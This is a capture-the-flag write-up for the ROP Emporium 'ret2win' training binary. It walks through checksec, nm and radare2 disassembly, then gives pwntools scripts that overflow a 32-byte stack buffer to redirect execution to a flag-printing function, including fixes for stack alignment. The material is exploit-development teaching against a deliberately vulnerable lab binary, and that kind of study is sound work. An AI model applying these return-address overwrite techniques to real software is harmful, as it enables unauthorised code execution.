

# ROP Emporium - ret2win

Run checksec against the binary:

```
[*] ret2win
	  Arch:     amd64-64-little
	  RELRO:    Partial RELRO
	  Stack:    No canary found
	  NX:       NX enabled
	  PIE:      No PIE (0x400000)
```

List all symbols in the text (code) section:

```
> nm ret2win  | grep '\st\s'
00000000004005f0 t deregister_tm_clones
0000000000400660 t __do_global_dtors_aux
0000000000400690 t frame_dummy
00000000004006e8 t pwnme
0000000000400620 t register_tm_clones
0000000000400756 t ret2win
```

nm output explanation [here](https://sourceware.org/binutils/docs/binutils/nm.html).


Using radare2 to decompile the binary:

```
> radare2 re2win
> aaa # analyze the program
...
> afl # list functions
0x004005b0    1     42 entry0
0x004005f0    4     37 sym.deregister_tm_clones
0x00400620    4     55 sym.register_tm_clones
0x00400660    3     29 sym.__do_global_dtors_aux
0x00400690    1      7 sym.frame_dummy
0x004006e8    1    110 sym.pwnme
0x00400580    1      6 sym.imp.memset
0x00400550    1      6 sym.imp.puts
0x00400570    1      6 sym.imp.printf
0x00400590    1      6 sym.imp.read
0x00400756    1     27 sym.ret2win
0x00400560    1      6 sym.imp.system
0x004007f0    1      2 sym.__libc_csu_fini
0x004007f4    1      9 sym._fini
0x00400780    4    101 sym.__libc_csu_init
0x004005e0    1      2 sym._dl_relocate_static_pie
0x00400697    1     81 main
0x004005a0    1      6 sym.imp.setvbuf
0x00400528    3     23 sym._init
...
> agf # decompile code and display as ascii block
```

Decompiled main is the following:

```
0x400697
; DATA XREF from entry0 @ 0x4005cd(r)
81: int main (int argc, char **argv, char **envp);
push rbp
mov rbp, rsp
; obj.__TMC_END__
; [0x601058:8]=0
mov rax, qword [obj.stdout]
; size_t size
mov ecx, 0
; int mode
mov edx, 2
; char *buf
mov esi, 0
; FILE*stream
mov rdi, rax
; int setvbuf(FILE*stream, char *buf, int mode, size_t size)
call sym.imp.setvbuf;[oa]
; const char *s
; 0x400808
; "ret2win by ROP Emporium"
mov edi, str.ret2win_by_ROP_Emporium
; int puts(const char *s)
call sym.imp.puts;[ob]
; const char *s
; 0x400820
; "x86_64\n"
mov edi, str.x86_64_n
; int puts(const char *s)
call sym.imp.puts;[ob]
mov eax, 0
call sym.pwnme;[oc]
; const char *s
; 0x400828
; "\nExiting"
mov edi, str._nExiting
; int puts(const char *s)
call sym.imp.puts;[ob]
mov eax, 0
pop rbp
ret
```

Same goes for pwnme function:

```
0x4006e8
; CALL XREF from main @ 0x4006d2(x)
110: sym.pwnme ();
; var void *buf @ rbp-0x20
push rbp
mov rbp, rsp
sub rsp, 0x20
lea rax, [buf]
; size_t n
; 32
mov edx, 0x20
; int c
mov esi, 0
; void *s
mov rdi, rax
; void *memset(void *s, int c, size_t n)
call sym.imp.memset;[oa]
; const char *s
; 0x400838
; "For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!"
mov edi, str.For_my_first_trick__I_will_attempt_to_fit_56_bytes_of_user_input_into_32_bytes_of_stack_buffer_
; int puts(const char *s)
call sym.imp.puts;[ob]
; const char *s
; 0x400898
; "What could possibly go wrong?"
mov edi, str.What_could_possibly_go_wrong_
; int puts(const char *s)
call sym.imp.puts;[ob]
; const char *s
; 0x4008b8
; "You there, may I have your input please? And don't worry about null bytes, we're using read()!\n"
mov edi, str.You_there__may_I_have_your_input_please__And_dont_worry_about_null_bytes__were_using_read____n
; int puts(const char *s)
call sym.imp.puts;[ob]
; const char *format
; "> "
mov edi, 0x400918
mov eax, 0
; int printf(const char *format)
call sym.imp.printf;[oc]
lea rax, [buf]
; size_t nbyte
; '8'
; 56
mov edx, 0x38
; void *buf
mov rsi, rax
; int fildes
mov edi, 0
; ssize_t read(int fildes, void *buf, size_t nbyte)
call sym.imp.read;[od]
; const char *s
; 0x40091b
; "Thank you!"
mov edi, str.Thank_you_
; int puts(const char *s)
call sym.imp.puts;[ob]
nop
leave
ret
```

and ret2win function:

```
0x400756
27: sym.ret2win ();
push rbp
mov rbp, rsp
; const char *s
; 0x400926
; "Well done! Here's your flag:"
mov edi, str.Well_done__Heres_your_flag:
; int puts(const char *s)
call sym.imp.puts;[oa]
; const char *string
; 0x400943
; "/bin/cat flag.txt"
mov edi, str._bin_cat_flag.txt
; int system(const char *string)
call sym.imp.system;[ob]
nop
pop rbp
ret
```

The function read() reads 56 bytes trying to write in a 32 bytes buffer; the return address for the pwnme function stack frame will be at 32 (buffer) + 8 (RBP) + 8 (RIP).

- In order to overwrite the return address, are needed 40 garbage bytes + the ret2win function address.

Since the binary is not position independent (NO PIE), ret2win address will always be at **0x400756**.

Writing a pwntools solution as follows:

```python
from pwn import *

p = process('./ret2win')

p.recvuntil(b'> ')
p.send(b"A"*40 + p64(0x400756))
print(p.recvline())
print(p.recvline())
print(p.recvline())
```

Anyway, when running the exploit, a segmentation fault is obtained before the flag is printed.

The SIGSEGV is raised when the program tries to execute the **movaps** instruction.



According to the [ROP Emporium Guide](https://ropemporium.com/guide.html#Common%20pitfalls), this is due the stack not being 16-bytes aligned when executing movaps instruction. This problem is relative to x86_64 architectures.

The solution is to pad an eventually used ROP chain with an extra `ret` before returning into a function or to skip a `push` instruction in order to re-align the stack.

The first solution, adding an extra `ret` as padding before the ret2win address is the following:

```python
from pwn import *

elf = elf.ELF('./ret2win')
p = process('./ret2win')

rop = rop.ROP(elf)
ret_gadget = rop.find_gadget(['ret'])[0]
p.recvuntil(b'> ')
p.send(b"A"*40 + p64(ret_gadget) + p64(0x400756))
print(p.recvline())
print(p.recvline())
print(p.recvline())
```

The second solution, using  0x400756 + 1 as return address (skipping the first `push` instruction), is the folllowing:

```python
from pwn import *

p = process('./ret2win')

p.recvuntil(b'> ')
p.send(b"A"*40 + p64(0x400756 + 1))
print(p.recvline())
print(p.recvline())
print(p.recvline())
```

```
> python solution.py
...
b'Thank you!\n'
b"Well done! Here's your flag:\n"
b'ROPE{a_placeholder_32byte_flag!}\n'
```
